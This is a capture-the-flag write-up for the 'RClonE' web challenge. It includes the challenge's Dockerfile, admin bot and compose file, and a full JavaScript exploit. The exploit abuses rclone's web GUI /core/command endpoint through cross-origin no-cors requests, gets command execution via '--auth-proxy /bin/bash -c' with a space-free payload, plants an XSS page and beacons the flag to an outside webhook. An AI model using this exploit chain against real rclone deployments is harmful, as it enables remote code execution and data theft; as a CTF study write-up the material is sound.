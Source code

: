 # RClonE - Web

By: disna

## Description

```
Rclone is a CLI that syncs your files to various cloud storage. But do you know it also have a built-in web UI?
```
- Author: maple3142
- Solves: 27


The challenge consists of two containers: one that runs [`rclone`](https://github.com/rclone/rclone)'s web GUI on `rclone:5572`, and a bot that authenticates itself on said container before navigating to an URL of our choosing. The `rclone` container does not have any internet connectivity.

<details>
    <summary><code>Dockerfile</code></summary>

```Docker
FROM debian:bookworm-slim

RUN apt-get update && \
    apt-get install -y tini ca-certificates curl unzip && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*
WORKDIR /workdir

ARG RCLONE_VERSION=v1.67.0
ARG RCLONE_NAME=rclone-$RCLONE_VERSION-linux-amd64
ARG RCLONE_HASH=07c23d21a94d70113d949253478e13261c54d14d72023bb14d96a8da5f3e7722

RUN curl https://downloads.rclone.org/$RCLONE_VERSION/$RCLONE_NAME.zip -o rclone.zip && \
    echo $RCLONE_HASH rclone.zip | sha256sum -c && \
    unzip rclone.zip && \
    mv $RCLONE_NAME/rclone /usr/bin

COPY ./readflag /readflag
RUN chmod 111 /readflag

RUN useradd -ms /bin/bash ctf
USER ctf

ENTRYPOINT ["tini", "--"]
CMD rclone rcd --rc-addr 0.0.0.0:5572 --rc-web-gui --rc-user $SECRET --rc-pass $SECRET --rc-web-gui-no-open-browser
```
</details>

<details>
    <summary><code>bot.js</code></summary>

```javascript
const puppeteer = require('puppeteer')

const SECRET = process.env.SECRET || 'secret'
const sleep = async ms => new Promise(resolve => setTimeout(resolve, ms))

const auth = `${SECRET}:${SECRET}`
const SITE = process.env.SITE || 'http://rclone:5572'
const tmpurl = new URL(`/?login_token=${encodeURIComponent(btoa(auth))}`, SITE)
tmpurl.username = SECRET
tmpurl.password = SECRET
const LOGIN_URL = tmpurl.href
console.log('[+] LOGIN_URL:', LOGIN_URL)

let browser = null

const visit = async url => {
        let context = null
        try {
                if (!browser) {
                        const args = ['--js-flags=--jitless,--no-expose-wasm', '--disable-gpu', '--disable-dev-shm-usage']
                        if (new URL(SITE).protocol === 'http:') {
                                args.push(`--unsafely-treat-insecure-origin-as-secure=${SITE}`)
                        }
                        browser = await puppeteer.launch({
                                headless: 'new',
                                args
                        })
                }

                context = await browser.createBrowserContext()

                const page1 = await context.newPage()
                await page1.goto(LOGIN_URL)
                await page1.close()

                const page2 = await context.newPage()
                await Promise.race([
                        page2.goto(url, {
                                waitUntil: 'networkidle0'
                        }),
                        sleep(5000)
                ])
                await page2.close()

                await context.close()
                context = null
        } catch (e) {
                console.log(e)
        } finally {
                if (context) await context.close()
        }
}

module.exports = visit

if (require.main === module) {
        visit('http://example.com')
}
``` 
</details>

<details>
        <summary><code>docker-compose.yaml</code></summary>
        
```yaml
services:
  rclone:
    image: rclone
    build: .
    environment:
      - SECRET=secret  # randomized secret per instancer
    networks:
      - chall
  bot:
    image: rclone-bot
    build: ./bot
    environment:
      - TITLE=Admin Bot for RClonE
      - PORT=8000
      - URL_CHECK_REGEX=^https?://.{1,256}$
      - SECRET=secret  # randomized secret per instancer
    security_opt:
      - seccomp=chrome.json
    ports:
      - "${PORT}:8000"
    networks:
      - default
      - chall
networks:
  chall:
    internal: true
```
</details>

`rclone` is a tool used to transfer files, much like `rsync`, between local and compatible cloud storage formats (e.g., S3). The goal of the challenge is to execute `/readflag` on the `rclone` container, and read out the result somehow.

## Solution description

The web GUI conveniently exposes a `/core/command` endpoint, which we can access from any origin through `no-cors` requests, and essentially lets us run any `rclone` command as if we ran it from the terminal, such as `rclone sync`, `rclone ls`, etc., with an arbitrary set of arguments. How convenient!

A grep through the `rclone` codebase reveals `exec.Command` being used a couple of times. Notably, in `cmd/serve/proxy/proxy.go`, we find:

```go
func (p *Proxy) run(in map[string]string) (config configmap.Simple, err error) {
	cmd := exec.Command(p.cmdLine[0], p.cmdLine[1:]...)
```

And, a snippet from the output of `rclone serve http --help`:

```
### Auth Proxy

If you supply the parameter `--auth-proxy /path/to/program` then
rclone will use that program to generate backends on the fly which
then are used to authenticate incoming requests.
```

An easy way to execute arbitrary binaries, by simply sending an authenticated request (e.g., `a:b@rclone:8080`)! One might assume that the `--auth-proxy` option only admits executing binaries without arguments, but the implementation of it in `cmd/serve/proxy/proxy.go` implies arguments do get sent to it. `p.cmdLine` gets populated from `strings.Fields(opt.AuthProxy)`, so we send it a space-separated `/bin/bash -c <PAYLOAD>` argument. There is a little fiddling involved, because `<PAYLOAD>` cannot contain any spaces, but [this blog](https://www.betterhacker.com/2016/10/command-injection-without-spaces.html) details a way to use a payload that does not contain spaces.

To read out the flag, we also run `rclone rcd http /tmp --rc-addr 0.0.0.0:8079`, to expose all files in `/tmp` over HTTP. Then, a payload to pipe the output of `/readflag` into `/tmp/flag.txt` and a subsequent request to `rclone:8079/flag.txt` _should_ be sufficient to extract the flag, and from there we can send if to a webhook we own to win.

## Summary
- Send bot to our domain
- Have the bot send `no-cors` commands to `/core/command` to set up a HTTP server on `rclone:8080`, for RCE, and `rclone:8079`, for retrieving the flag.
- Send request with credentials to `rclone:8080`
- Retrieve flag from `rclone:8079/flag.txt`
- win

<details>
        <summary><code>index.js</code></summary>
        
```javascript
const leDomain = "rclone"
const rcAPIEndpoint = `http://${leDomain}:5572`;
const fakeRcAPIEndpoint = `http://a:b@${leDomain}:8080`;
const webhook = "https://exfil-addr.x.pipedream.net";
const exfilRcAPIEndpoint = `http://${leDomain}:8079`;
const ownedUrl = "https://secure.mydomain.tld";
for (let i = 0; i < 1; i++) {
    // just a threaded python server that has a route that just sleeps for 5 seconds.
    fetch(`${ownedUrl}/delay`, {
        cache: "no-store",
        mode: "no-cors",
    })
}

(async () => {
    console.log("started")
    const sleep = async (ms) => new Promise(resolve => setTimeout(resolve, ms));
    let res;

    let innerScript = `
const webhook = "${webhook}";
navigator.sendBeacon(webhook, "xss script init");
console.log("xss script init");
(async () => {
    console.log(window.location);
    let res = await fetch("/flag.txt");
    res = await res.text();
    navigator.sendBeacon(webhook, res);
    console.log("gg!")
})();
    `.trim();
    innerScript = innerScript.split('').map(c => c.charCodeAt(0)).join(',');

    if (window.location.protocol == "https:") {
        let uServe = new URL(`${rcAPIEndpoint}/core/command`)
        uServe.searchParams.set("command", "serve")
        uServe.searchParams.set("arg", JSON.stringify(["http", "--auth-proxy", `/bin/bash -c CMD=$'\\x20<script>eval(String.fromCharCode(${innerScript}))</script>';/readflag>/tmp/flag.txt;echo$CMD>/tmp/xss.html`, "--addr", "0.0.0.0:8080", "--verbose", "--log-file", "/tmp/log", "--allow-origin", "*"]))
        uServe.searchParams.set("fs", "/")
        uServe.searchParams.set("_async", "true")
        try {
            res = fetch(uServe.href, {
                method: "POST",
                credentials: "include",
                mode: "no-cors"
            });
        } catch (e) { }
        let uRCD = new URL(`${rcAPIEndpoint}/core/command`)
        uRCD.searchParams.set("command", "rcd")
        uRCD.searchParams.set("arg", JSON.stringify(["/tmp", "--rc-addr", "0.0.0.0:8079", "--rc-allow-origin", "*", "--verbose", "--log-file", "/tmp/log-exfil"]))
        uRCD.searchParams.set("fs", "/")
        uRCD.searchParams.set("_async", "true")
        try {
            res = fetch(uRCD.href, {
                method: "POST",
                credentials: "include",
                mode: "no-cors"
            })
        } catch (e) { }
        window.open(`${fakeRcAPIEndpoint}/`, "_blank");
        await sleep(1000);
        console.log("all opened")
        window.location = `http://${leDomain}:8079/xss.html`
    } else if (window.location.protocol == "http:") {
    }
})();
```
</details>

## Notes

- The `rclone serve` and `rclone rcd` commands, when run over `/core/command`, will continue running until the connection drops. `no-cors` requests instantly drop the connection to not reveal any form of timing information to the initiator. We had to have the commands be run async instead.
- Regular fetch requests cannot have credentials in the request URI, and neither can iframe src URIs. `window.open` is okay with it though, which is what we used to trigger the authenticated request and `--auth-proxy` behavior.
- Running our domain as HTTP does not work because browsers will block non-secure requests from public domains towards private IP ranges. In this case, a request from our domain (public) towards `rclone:<port>` (private) constituted as such.
- Running our domain as HTTPS also posed a problem because the server at `rclone:8079` ran on HTTP, and sending a HTTP request would trigger a mixed-resource error.
- We also found that while trying to redirect from HTTPS to HTTP, the browser just forces HTTPS anyways. We got around this by injecting an HTML page on `rclone:8079` and navigating there instead.